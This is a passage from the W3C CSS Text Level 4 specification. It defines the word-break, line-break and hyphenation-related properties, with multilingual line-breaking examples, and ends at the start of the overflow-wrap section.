- The `word-break` property controls what types of letters are glommed together to form unbreakable “words”, causing CJK characters to behave like non-CJK text or vice versa, enabling control over word detection in South East Asian Languages, or allowing words to be grouped into phrases…
- The `hyphens` property controls whether automatic hyphenation is allowed to break words in scripts that hyphenate.
- The `overflow-wrap` property allows the UA to take a break anywhere in otherwise-unbreakable strings that would otherwise overflow.

> **Note:** [Unicode Standard Annex #14: Unicode Line Breaking Algorithm](https://www.unicode.org/reports/tr14/) defines a baseline behavior for line breaking for all scripts in Unicode, which is expected to be further tailored. [UAX14] More information on line breaking conventions can be found in [Requirements for Japanese Text Layout](https://www.w3.org/TR/jlreq/) [JLREQ] and Formatting Rules for Japanese Documents [JIS4051] for Japanese, [Requirements for Chinese Text Layout](https://www.w3.org/TR/clreq/) [CLREQ] and General Rules for Punctuation [ZHMARK] for Chinese. See also the [Internationalization Working Group](https://www.w3.org/International/)’s [Language Enablement Index](https://www.w3.org/TR/typography/#blocks_paragraphs) which includes more information on additional languages. [TYPOGRAPHY] Any guidance on additional appropriate references would be much appreciated.

#### 6.1.  Breaking Rules for Letters: the `word-break` property {#css-text-4:word-break-property}

| Field | Value |
| --- | --- |
| Name: | **word-break** |
| [Value:](#css-values-4:value-defs) | normal \| break-all \| keep-all \| manual \| auto-phrase \| break-word |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies soft wrap opportunities between and within “words”, i.e. where it is “normal” and permissible to break lines of text. It focuses on breaks between letters, and does not define whether and how soft wrap opportunities are created by white space and other space separators (though `auto-phrase` may suppress some), nor around punctuation. (See `line-break` for controls affecting punctuation and small kana.)

In particular, `word-break` controls whether a soft wrap opportunity generally exists between adjacent typographic letter units, treating non-letter typographic character units belonging to the `NU`, `AL`, `AI`, or `ID` Unicode line breaking classes as typographic letter units for this purpose (only). [UAX14]

> **Example:** For example, in some styles of CJK typesetting, English words are allowed to break between any two letters, rather than only at spaces or hyphenation points; this can be enabled with `word-break:break-all`.
>
> 
>
> An example of English text embedded in Japanese being broken at an arbitrary point in the word.
>
> As another example, Korean has two styles of line-breaking: between any two Korean syllables (`word-break: normal`) or, like English, mainly at spaces (`word-break: keep-all`).
>
> ```
> 각 줄의 마지막에 한글이 올 때 줄 나눔 기
> 준을 “글자” 또는 “어절” 단위로 한다.
> ```
>
> ```
> 각 줄의 마지막에 한글이 올 때 줄 나눔
> 기준을 “글자” 또는 “어절” 단위로 한다.
> ```
>
> Ethiopic similarly has two styles of line-breaking, either only breaking at word separators (`word-break: normal`), or also allowing breaks between letters within a word (`word-break: break-all`).
>
> ```
> ተወልዱ፡ኵሉ፡ሰብእ፡ግዑዛን፡ወዕሩያን፡
> በማዕረግ፡ወብሕግ።ቦሙ፡ኅሊና፡ወዐቅል፡
> ወይትጌበሩ፡አሐዱ፡ምስለ፡አሀዱ፡
> በመንፈሰ፡እኍና።
> ```
>
> ```
> ተወልዱ፡ኵሉ፡ሰብእ፡ግዑዛን፡ወዕሩያን፡በማ
> ዕረግ፡ወብሕግ።ቦሙ፡ኅሊና፡ወዐቅል፡ወይትጌ
> በሩ፡አሐዱ፡ምስለ፡አሀዱ፡በመንፈሰ፡እኍና።
> ```

> **Note:** To enable additional break opportunities only in the case of overflow, see `overflow-wrap`.

Values have the following meanings:

****normal****

: Words break according to their customary rules, as described [above](#css-text-4:line-breaking). Korean, which commonly exhibits two different behaviors, allows breaks between any two consecutive Hangul/Hanja. For Ethiopic, which also exhibits two different behaviors, such breaks within words are not allowed.

  Some writing systems require specific processing to obtain the customarily expected soft wrap opportunities, as described in [§ 6.1.1 Analytical Word Breaking](#css-text-4:analytical-word-breaking).

****break-all****

: Breaking is allowed within “words”: specifically, in addition to soft wrap opportunities allowed for `normal`, any typographic letter units (and any typographic character units resolving to the `NU` (“numeric”), `AL` (“alphabetic”), or `SA` (“Southeast Asian”) line breaking classes [UAX14]) are instead treated as `ID` (“ideographic characters”) for the purpose of line-breaking. Hyphenation is not applied.

  > **Note:** This value does not affect whether there are soft wrap opportunities around punctuation characters. To allow breaks anywhere, see `line-break: anywhere`.

  > **Note:** This option enables the other common behavior for Ethiopic. It is also often used in a context where the text consists predominantly of CJK characters with only short non-CJK excerpts, and it is desired that the text be better distributed on each line.

****keep-all****

: Breaking is forbidden within “words”: implicit soft wrap opportunities between typographic letter units (or other typographic character units belonging to the `NU`, `AL`, `AI`, or `ID` Unicode line breaking classes [UAX14]) are suppressed, i.e. breaks are prohibited between pairs of such characters (regardless of `line-break` settings other than `anywhere`) except where opportunities exist due to [§ 6.1.1.1 Lexical Word Breaking](#css-text-4:lexical-breaking). Otherwise this option is equivalent to `normal`. In this style, sequences of CJK characters do not break.

  > **Note:** This is the other common behavior for Korean (which uses spaces between words), and is also useful for mixed-script text where CJK snippets are mixed into another language that uses spaces for separation.

****manual****

: Behaves the same as `normal`, except that [§ 6.1.1.1 Lexical Word Breaking](#css-text-4:lexical-breaking) must *not* be performed. Specifically, typographic character units with class SA in [UAX14] must be treated as if they had class AL (i.e. assuming a value of `line-break` other than `anywhere`, there is no soft wrap opportunity between pairs of such characters).

  > **Note:** This value does not affect syllable-based soft wrap opportunities within words in languages such as Balinese. (See [§ 6.1.1.2 Orthographic Breaking](#css-text-4:orthographic-breaking) for some discussion of such writing systems.)

  > **Issue:** alternatively, this value could be based on `keep-all` rather than `normal`. Yet another variant is to merge this behavior with `keep-all`.

  > **Note:** Some Southeast Asian languages are commonly misdetected by user agents. With `word-break: normal`, they would then apply inappropriate language-specific logic to find wrapping opportunities, and place them inappropriately.
  >
  > For instance, many languages other than Thai are written using the Thai script, and line-breaking them as if they were Thai will generally produce inadequate—​and possibly confusing—​results.
  >
  > When this occurs, this value enables authors to turn off the word boundary detection built into user agents for `word-break: normal`, so that they can manually mark up the text to indicate wrapping opportunities and obtain sensible results.
  >
  > > **Advisement:** Authors using this value are expected to manually indicate word boundaries for Southeast Asian languages, using `wbr` or U+200B. Otherwise, there will be no soft wrap opportunity and the text may overflow.

****auto-phrase****

: Behaves the same as `normal`, except that this value directs the user agent to perform language-specific content analysis to prioritize keeping natural phrases (of multiple words) together.

  If the content language of the element is unknown, or if the user agent does not know how to detect phrase boundaries for that particular language, this value must behave as `normal`. Otherwise, the user agent should detect phrase boundaries and suppress soft wrap opportunities within each phrase.

  Regardless of the content language and support for phrase boundary detection, hyphenation opportunities are suppressed as if `hyphens: none` had been specified.

  > **Note:** Whether a word boundary detection system designed for one language is suitable for some or all dialects of that language is somewhat subjective, and this specifications leaves it at the discretion of the user agent. Even if a detection system is not able to cope with all nuances of a particular dialect, it may be reasonable to claim support if the detection correctly recognizes word boundaries most of the time. However, the user agent would do a disservice to authors and users if it claimed support for languages where it fails to detect most word boundaries or has a high error rate.
  >
  > > **Example:** If a user agent has a word-boundary detection system for Cantonese that is not suitable for the broader set of Chinese languages, `auto-phrase` should have an effect on content marked as `lang=yue`, `lang=zh-yue`, or `lang=zh-HK`, but not `lang=zh` or `lang=zh-Hant`.
  > >
  > > However, if the user agent supports a generic word-boundary detection system that is suitable for Chinese in general, `auto-phrase` should have an effect on content marked with the broad `lang=zh` characterization, as well as any more specific ones, such as `lang=zh-yue`, `lang=zh-Hant-HK`, `lang=zh-Hans-SG`, or `lang=zh-hak`.

Symbols that line-break the same way as letters of a particular category are affected the same way as those letters.

> **Example:** Here’s a mixed-script sample text:
>
> ```
> 这是一些汉字 and some Latin و کمی خط عربی และตัวอย่างการเขียนภาษาไทย በጽሑፍ፡ማራዘሙን፡አንዳንድ፡
> ```
>
> The break-points are determined as follows (indicated by ‘·’):
>
> **`word-break: normal`**
>
> : ```
>   这·是·一·些·汉·字·and·some·Latin·و·کمی·خط·عربی·และ·ตัวอย่าง·การเขียน·ภาษาไทย·በጽሑፍ፡·ማራዘሙን፡·አንዳንድ፡
>   ```
>
> **`word-break: break-all`**
>
> : ```
>   这·是·一·些·汉·字·a·n·d·s·o·m·e·L·a·t·i·n·و·ﮐ·ﻤ·ﻰ·ﺧ·ﻁ·ﻋ·ﺮ·ﺑ·ﻰ·แ·ล·ะ·ตั·ว·อ·ย่·า·ง·ก·า·ร·เ·ขี·ย·น·ภ·า·ษ·า·ไ·ท·ย·በ·ጽ·ሑ·ፍ፡·ማ·ራ·ዘ·ሙ·ን፡·አ·ን·ዳ·ን·ድ፡
>   ```
>
> **`word-break: keep-all`**
>
> : ```
>   这是一些汉字·and·some·Latin·و·کمی·خط·عربی·และ·ตัวอย่าง·การเขียน·ภาษาไทย·በጽሑፍ፡·ማራዘሙን፡·አንዳንድ፡
>   ```

> **Example:** Japanese is usually typeset allowing line breaks between syllables within words. However, it is sometimes preferred to suppress these wrapping opportunities and to only allow wrapping at the end of certain sentence fragments. This is most commonly done in very short pieces of text, such as headings and table or figure captions.
>
> This can be achieved manually by marking the allowed wrapping points with `wbr` or U+200B ZERO WIDTH SPACE, and suppressing the other ones using `word-break: keep-all`.
>
> Alternatively, in user agents that support detection of phrases boundaries in Japanese, the same results can be achieved automatically by using `word-break: auto-phrase` (assuming the content language is specified).
>
> | Sample markup and style rule | Expected rendering | Result in your browser |
> | --- | --- | --- |
> | <h1> 窓ぎわの<wbr>トットちゃん </h1> `h1 { word-break: normal; }` | 窓ぎわのトッ トちゃん | `窓ぎわのトットちゃん` |
> | <h1> 窓ぎわの<wbr>トットちゃん </h1> `h1 { word-break: keep-all; }` | 窓ぎわの トットちゃん | `窓ぎわのトットちゃん` |
> | <h1 lang=ja> 窓ぎわのトットちゃん </h1> `h1 { word-break: auto-phrase; }` | 窓ぎわの トットちゃん | `窓ぎわのトットちゃん` |

User agents must not, in response to any value of this property, suppress soft wrap opportunities which are:

- introduced by the `wbr` HTML element or U+200B ZERO WIDTH SPACE
- required by the `line-break` property
- [surrounding atomic inlines](#css-text-4:atomic-compat-wrap)

The effects of `word-break` are taken into account when computing intrinsic sizes.

For compatibility with legacy content, the `word-break` property also supports a deprecated **break-word** keyword. When specified, this has the same effect as `word-break: normal` and `overflow-wrap: anywhere`, regardless of the actual value of the `overflow-wrap` property.

##### 6.1.1.  Analytical Word Breaking {#css-text-4:analytical-word-breaking}

###### 6.1.1.1.  Lexical Word Breaking {#css-text-4:lexical-breaking}

To provide the expected `normal` behavior for Southeast Asian languages, typographic character units with line breaking class SA in [UAX14] must be treated as if they had class AL. However, the user agent must additionally analyze the content of a run of such characters to detect word boundaries and treat each boundary as a soft wrap opportunities.

As various languages can be written in scripts which use the characters with class SA, if the content language is known, the user agent should use this information to tailor its analysis.

###### 6.1.1.2.  Orthographic Breaking {#css-text-4:orthographic-breaking}

For scripts (such as Balinese) that use line breaking based on orthographic syllables, the UA must analyze the content to find the correct points to insert soft wrap opportunities.

> **Note:** At the time of writing, Unicode does not define how to perform this analysis, and treats all characters in these writing systems as having line breaking class AL. However, a proposal has been made to solve that issue. Even though it is not final, it can be informative to consult. [L2-22-080R]

###### 6.1.1.3.  Fallback Breaking {#css-text-4:fallback-breaking}

In order to avoid unexpected overflow, if the user agent is unable to perform the requisite lexical or orthographic analysis for line breaking any content language that requires it—​for example due to lacking a dictionary for languages written in characters with class SA—​it must assume a soft wrap opportunity between pairs of typographic letter units in that writing system.

> **Note:** This provision is not triggered merely when the UA fails to find a word boundary in a particular text run; the text run may well be a single unbreakable word. It applies for example when a text run is composed of Khmer characters (U+1780 to U+17FF) if the user agent does not know how to determine word boundaries in Khmer.

##### 6.1.2.  Expressing User Preferences for Phrase-based Line Breaking {#css-text-4:phrase-pref}

User agents may activate language-specific content analysis described in `auto-phrase` in response to user preferences. User agents with this behavior must do this by setting the declared value of `word-break` to `auto-phrase` in the user origin.

> **Note:** This allows authors to detect whether or not this feature is enabled by calling `getComputedStyle()`, or to override it in the author origin where appropriate.

#### 6.2.  Line Breaking Strictness: the `line-break` property {#css-text-4:line-break-property}

| Field | Value |
| --- | --- |
| Name: | **line-break** |
| [Value:](#css-values-4:value-defs) | auto \| loose \| normal \| strict \| anywhere |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the strictness of line-breaking rules applied within an element: especially how wrapping interacts with punctuation and symbols. Values have the following meanings:

****auto****

: The UA determines the set of line-breaking restrictions to use, and it may vary the restrictions based on the length of the line; e.g., use a less restrictive set of line-break rules for short lines.

****loose****

: Breaks text using the least restrictive set of line-breaking rules. Typically used for short lines, such as in newspapers.

****normal****

: Breaks text using the most common set of line-breaking rules.

****strict****

: Breaks text using the most stringent set of line-breaking rules.

****anywhere****

: There is a soft wrap opportunity around every typographic character unit, including around any punctuation character or preserved white spaces, or in the middle of words, disregarding any prohibition against line breaks, even those introduced by characters with the `GL`, `WJ`, or `ZWJ` line breaking classes or mandated by the `word-break` property. [UAX14] The different wrapping opportunities must not be prioritized. Hyphenation is not applied.

  > **Note:** This value triggers the line breaking rules typically seen in terminals.

  > **Note:** `anywhere` only allows preserved white spaces at the end of the line to be wrapped to the next line when `white-space` is set to `break-spaces`, because in other cases:
  >
  > - preserved white space at the end/start of the line is discarded (`normal`, `pre-line`)
  > - wrapping is forbidden altogether (`nowrap`, `pre`)
  > - the preserved white space hang (`pre-wrap`).
  >
  > When it does have an effect on preserved white space, with `white-space: break-spaces`, it allows breaking before the first space of a sequence, which `break-spaces` on its own does not.

CSS distinguishes between four levels of strictness in the rules for text wrapping. The precise set of rules in effect for each of `loose`, `normal`, and `strict` is up to the UA and should follow language conventions. However, for these three keywords, this specification does require that:

- The following breaks are allowed for `normal` and `loose` line breaking if the writing system is Chinese or Japanese, and are otherwise forbidden:

  - breaks before certain CJK hyphen-like characters:  〜 U+301C, ゠ U+30A0
- The following breaks are allowed for `loose` line breaking if the preceding character belongs to the Unicode line breaking class `ID` [UAX14] (including when the preceding character is treated as `ID` due to `word-break: break-all`), and are otherwise forbidden:

  - breaks before hyphens:  ‐ U+2010, – U+2013
- The following breaks are forbidden for `normal` and `strict` line breaking and allowed in `loose`:

  - breaks before Japanese small kana or the Katakana-Hiragana prolonged sound mark, i.e. characters from the Unicode line breaking class `CJ`. [UAX14]
  - breaks before iteration marks:  々 U+3005, 〻 U+303B, ゝ U+309D, ゞ U+309E, ヽ U+30FD, ヾ U+30FE
  - breaks between inseparable characters (such as ‥ U+2025, … U+2026) i.e. characters from the Unicode line breaking class `IN`. [UAX14]
- The following breaks are allowed for `loose` if the writing system is Chinese or Japanese and are otherwise forbidden:

  - breaks before certain centered punctuation marks:  ・ U+30FB, ： U+FF1A, ； U+FF1B, ･ U+FF65, ‼ U+203C, ⁇ U+2047, ⁈ U+2048, ⁉ U+2049, ！ U+FF01, ？ U+FF1F
  - breaks before suffixes:  Characters with the Unicode line breaking class `PO` [UAX14] and the East Asian Width property [UAX11] `Ambiguous`, `Fullwidth`, or `Wide`.
  - breaks after prefixes:  Characters with the Unicode line breaking class `PR` [UAX14] and the East Asian Width property [UAX11] `Ambiguous`, `Fullwidth`, or `Wide`.

> **Note:** The requirements listed above only create distinctions in CJK text. In an implementation that matches only the rules above, and no additional rules, `line-break` would only affect CJK code points unless the writing system is tagged as Chinese or Japanese. Future levels may add additional specific rules for other writing systems and languages as their requirements become known.

> **Example:** As UAs can add additional distinctions between `strict`/`normal`/`loose` modes, these values can exhibit differences in other writing systems as well. For example, a UA with sufficiently-advanced Thai language processing ability could choose to map different levels of strictness in Thai line-breaking to these keywords, e.g. disallowing breaks within compound words in `strict` mode (e.g. breaking ตัวอย่างการเขียนภาษาไทย as ตัวอย่าง·การเขียน·ภาษาไทย) while allowing more breaks in `loose` (ตัวอย่าง·การ·เขียน·ภาษา·ไทย).

> **Note:** The CSSWG recognizes that in a future edition of the specification finer control over line breaking may be necessary to satisfy high-end publishing requirements.

> **Note:** While user agents can refer to [UAX14] as a starting point for their line-breaking implementation, the following deviations could be desirable for maximum interoperability with existing implementations:
>
> - Not introducing a line break opportunity between U+0021 (Exclamation Mark, `!`) and a letter (Unicode general category `L`). This prevents a break in the string “!important”.
> - Not introducing a line break opportunity between U+002F (Solidus, `/`) and a letter (Unicode general category `L`). This prevents a break in dates such as “23/Jan/2024”.
> - Not introducing a line break opportunity between U+007C (Vertical Line, `|`) and a letter (Unicode general category `L`).
> - Not introducing a line break opportunity between U+002D (Hyphen-Minus `-`) and a digit (Unicode general category `Nd`) if the codepoint prior to the hyphen was _not_ a letter or digit (Unicode general category `L` or `Nd`). This prevents breaking after the minus sign before a number such as in “-13” whilst allowing breaks after the hyphen in “ABCD-1234” and “1234-5678” which may appear in long URLs, for example.

#### 6.3.  Hyphenation: Morphological Breaking Within Words {#css-text-4:hyphenation}

##### 6.3.1.  Hyphenation Control: the `hyphens` property {#css-text-4:hyphens-property}

**Hyphenation** is the controlled splitting of words where they usually would not be allowed to break to improve the layout of paragraphs, typically splitting words at syllabic or morphemic boundaries and often visually indicating the split (usually by inserting a hyphen, U+2010). In some cases, hyphenation may also alter the spelling of a word. Regardless, hyphenation is a rendering effect only: it must have no effect on the underlying document content or on text selection or searching.

> **Example:** Hyphenation practices vary across languages, and can involve not just inserting a hyphen before the line break, but inserting a hyphen after the break (or both), inserting a different character than U+2010, or changing the spelling of the word.
>
> | Language | Unbroken | Before | After |
> | --- | --- | --- | --- |
> | English | Unbroken | Un‐ | broken |
> | Dutch | cafeetje | café‐ | tje |
> | Hungarian | Összeg | Ösz‐ | szeg |
> | Mandarin | tú’àn | tú‐ | àn |
> | àizēng‐fēnmíng | àizēng‐ | ‐fēnmíng |  |
> | Uyghur | ![[isolated DAL + isolated ALEF + initial MEEM + medial YEH + final DAL + isolated ALEF MAKSURA]](../css-text-4/images/uyghur-unbroken.svg) | ![[isolated DAL + isolated ALEF + initial MEEM + final YEH + hyphen ]](../css-text-4/images/uyghur-hyphenate-joined-before.svg) | ![[ isolated DAL + isolated ALEF MAKSURA]](../css-text-4/images/uyghur-hyphenate-joined-after.svg) |
> | Cree | ![[ᑲᓯᑕᓂᐘᓂᓂᐠ] (CANADIAN SYLLABICS KA + CANADIAN SYLLABICS SI + CANADIAN SYLLABICS TA + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS WEST-CREE WA + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS FINAL GRAVE)](../css-text-4/images/cree.svg) | ![[ᑲᓯᑕᓂ᐀] (CANADIAN SYLLABICS KA + CANADIAN SYLLABICS SI + CANADIAN SYLLABICS TA + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS HYPHEN)](../css-text-4/images/cree-before.svg) | ![[ᐘᓂᓂᐠ] (CANADIAN SYLLABICS WEST-CREE WA + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS NI + CANADIAN SYLLABICS FINAL GRAVE)](../css-text-4/images/cree-after.svg) |

Hyphenation occurs when the line breaks at a valid **hyphenation opportunity**, which is a type of soft wrap opportunity that exists within a word where hyphenation is allowed. In CSS hyphenation opportunities are controlled with the `hyphens` property. CSS Text Level 3 does not define the exact rules for hyphenation; however UAs are strongly encouraged to optimize their choice of break points and to chose language-appropriate hyphenation points.

> **Note:** The soft wrap opportunity introduced by the U+002D - HYPHEN-MINUS character or the U+2010 ‐ HYPHEN character is not a hyphenation opportunity, as no visual indication of the split is *created* when wrapping: these characters are visible whether the line is wrapped at that point or not.

Hyphenation opportunities *are* considered when calculating min-content intrinsic sizes.

> **Note:** This allows tables to hyphenate their contents instead of overflowing their containing block, which is particularly important in long-word languages like German.

| Field | Value |
| --- | --- |
| Name: | **hyphens** |
| [Value:](#css-values-4:value-defs) | none \| manual \| auto |
| [Initial:](#css-cascade-6:initial-values) | manual |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls whether hyphenation is allowed to create more soft wrap opportunities within a line of text. Values have the following meanings:

****none****

: Words are not hyphenated, even if characters inside the word explicitly define hyphenation opportunities.

  > **Note:** This does not suppress the existing soft wrap opportunities introduced by always visible characters such as U+002D - HYPHEN-MINUS or U+2010 ‐ HYPHEN.

****manual****

: Words are only hyphenated where there are characters inside the word that explicitly suggest hyphenation opportunities. The UA must use the appropriate language-specific hyphenation character(s) and should apply any appropriate spelling changes just as for automatic hyphenation at the same point.

  > **Example:** In Unicode, U+00AD is a conditional "soft hyphen" and U+2010 is an unconditional hyphen. Unicode Standard Annex #14 describes the [role of soft hyphens in](http://unicode.org/reports/tr14/#SoftHyphen) Unicode line breaking. [UAX14] In HTML, &shy; represents the soft hyphen character, which suggests a hyphenation opportunity.
  >
  > ```
  > ex&shy;ample
  > ```

****auto****

: Words may be broken at hyphenation opportunities determined automatically by a language-appropriate hyphenation resource in addition to those indicated explicitly by a conditional hyphen. Automatic hyphenation opportunities elsewhere within a word must be ignored if the word contains a conditional hyphen (&shy; or U+00AD SOFT HYPHEN), in favor of the conditional hyphen(s). However, if, even after breaking at such opportunities, a portion of that word is still too long to fit on one line, an automatic hyphenation opportunity may be used.

Correct automatic hyphenation requires a hyphenation resource appropriate to the language of the text being broken. The UA must therefore only automatically hyphenate text for which the content language is known and for which it has an appropriate hyphenation resource.

> **Advisement:** Authors should correctly tag their content’s language (e.g. using the HTML `lang` attribute or XML `xml:lang` attribute) in order to obtain correct automatic hyphenation.

The UA may use language-tailored heuristics to exclude certain words from automatic hyphenation. For example, a UA might try to avoid hyphenation in proper nouns by excluding words matching certain capitalization and punctuation patterns. Such heuristics are not defined by this specification. (Note that such heuristics will need to vary by language: English and German, for example, have very different capitalization conventions.)

For the purpose of the `hyphens` property, what constitutes a “word” is UA-dependent. However, inline element boundaries and out-of-flow elements must be ignored when determining word boundaries.

Any glyphs shown due to hyphenation at a hyphenation opportunity created by a conditional hyphen character (such as U+00AD SOFT HYPHEN) are represented by that character and are styled according to the properties applied to it.

> **Note:** When shaping scripts such as Arabic are allowed to break within words due to hyphenation, the characters are still shaped as if the word were [not broken](#css-text-4:word-break-shaping).

> **Example:** For example, if the Uyghur word “داميدى” were hyphenated, it would appear as ![[isolated DAL + isolated ALEF + initial MEEM + medial YEH + hyphen + line-break + final DAL + isolated ALEF MAKSURA]](../css-text-4/images/uyghur-hyphenate-joined.svg) not as ![[isolated DAL + isolated ALEF + initial MEEM + final YEH + hyphen + line-break + isolated DAL + isolated ALEF MAKSURA]](../css-text-4/images/uyghur-hyphenate-unjoined.svg) .

##### 6.3.2.  Hyphens: the `hyphenate-character` property {#css-text-4:hyphenate-character}

| Field | Value |
| --- | --- |
| Name: | **hyphenate-character** |
| [Value:](#css-values-4:value-defs) | auto \| `<string>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the string that is shown between parts of hyphenated words. Values have the following meanings:

****auto****

: Specifies that the user agent should find an appropriate string based on the content language’s typographic conventions, possibly from the same source as the hyphenation dictionary.

****`<string>`****

: Specifies the string that appears at the hyphenation break when hyphenating. (The position of this string is not affected: the UA must insert the string according to the typographic conventions of the content language, defaulting to immediately before the hyphenation break.) The UA *may* truncate the used value to a limited number of typographic character units; it must not truncate only part of a typographic character unit.

  > **Note:** Specifying the empty string `""` is valid, and causes the UA to break at hyphenation opportunities without inserting a visible hyphenation character.

> **Example:** The hyphen character (U+2010) is most typically used to indicate that a word has been split. However, `hyphenate-character` can be used to specify a different type of hyphen when necessary.
>
> ```
> [lang]:lang(ojs) { hyphenate-character: "᐀" /* CANADIAN SYLLABICS HYPHEN (U+1400) */ }
> ```

> **Note:** Both hyphens triggered by automatic hyphenation and hyphens triggered by soft hyphens are rendered according to `hyphenate-character`.

##### 6.3.3.  Hyphenation Size Limit: the `hyphenate-limit-zone` property {#css-text-4:hyphenate-size-limits}

| Field | Value |
| --- | --- |
| Name: | **hyphenate-limit-zone** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refers to length of the line box |
| [Computed value:](#css-cascade-6:computed) | computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

> **Issue:** Is `hyphenate-limit-zone` a good name? Comments/suggestions?

This property specifies the maximum amount of unfilled space (before justification) that may be left in the line box before hyphenation is triggered to pull part of a word from the next line back up into the current line.

##### 6.3.4.  Hyphenation Character Limits: the `hyphenate-limit-chars` property {#css-text-4:hyphenate-char-limits}

| Field | Value |
| --- | --- |
| Name: | **hyphenate-limit-chars** |
| [Value:](#css-values-4:value-defs) | [ auto \| `<integer [0,∞]>` ]{1,3} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | three values, each either the `auto` keyword or an integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the minimum number of characters in a hyphenated word. If the word does not meet the required minimum number of characters in the word / before the hyphen / after the hyphen, then the word must not be hyphenated. Nonspacing combining marks (Unicode General Category Mn) and intra-word punctuation (Unicode General Category P*) do not count towards the minimum.

If three values are specified, the first value is the required minimum for the total characters in a word, the second value is the minimum for characters before the hyphenation point, and the third value is the minimum for characters after the hyphenation point. If the third value is missing, it is the same as the second. If the second value is missing, then it is `auto`. The **auto** value means that the UA chooses a value that adapts to the current layout.

> **Note:** Unless the UA is able to calculate a better value, it is suggested that `auto` means 2 for before and after, and 5 for the word total.

> **Example:** In the example below, the minimum size of a hyphenated word is left to the UA (which means it may vary depending on the language, the length of the line, or other factors), but the minimum number of characters before and after the hyphenation point is set to 3.
>
> ```
> p { hyphenate-limit-chars: auto 3; }
> ```

##### 6.3.5.  Hyphenation Line Limits: the `hyphenate-limit-lines` and `hyphenate-limit-last` properties {#css-text-4:hyphenate-line-limits}

| Field | Value |
| --- | --- |
| Name: | **hyphenate-limit-lines** |
| [Value:](#css-values-4:value-defs) | no-limit \| `<integer [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | no-limit |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword or integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property indicates the maximum number of successive hyphenated lines in an element. The `no-limit` value means that there is no limit.

In some cases, user agents may not be able to honor the specified value. (See overflow-wrap.) It is not defined whether hyphenation introduced by such emergency breaking influences nearby hyphenation points.

| Field | Value |
| --- | --- |
| Name: | **hyphenate-limit-last** |
| [Value:](#css-values-4:value-defs) | none \| always \| column \| page \| spread |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property indicates hyphenation behavior at the end of elements, column, pages, and spreads. A spread is a set of two pages that are visible to the reader at the same time. Values have the following meanings:

****none****

: No restrictions imposed.

****always****

: The last full line of the element, or the last line before any column, page, or spread break inside the element should not be hyphenated.

****column****

: The last line before any column, page, or spread break inside the element should not be hyphenated.

****page****

: The last line before page or spread break inside the element should not be hyphenated.

****spread****

: The last line before any spread break inside the element should not be hyphenated.

> **Example:** ```
> p { hyphenate-limit-last: always }
> div.chapter {	hyphenate-limit-last: spread }
> ```

> **Example:** A paragraph may be formatted like this when `hyphenate-limit-last: none` is set:
>
> ```
> This is just a
> simple example
> to show Antarc-
> tica.
> ```
>
> With 'hyphenate-limit-last: always' one would get:
>
> ```
> This is just a
> simple example
> to        show
> Antarctica.
> ```

#### 6.4.  Overflow Wrapping: the `overflow-wrap` (`word-wrap`) property {#css-text-4:overflow-wrap-property}

| Field | Value |
| --- | --- |
| Name: | **overflow-wrap** |
| [Value:](#css-values-4:value-defs) | normal \| break-word \| anywhere |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | discrete |

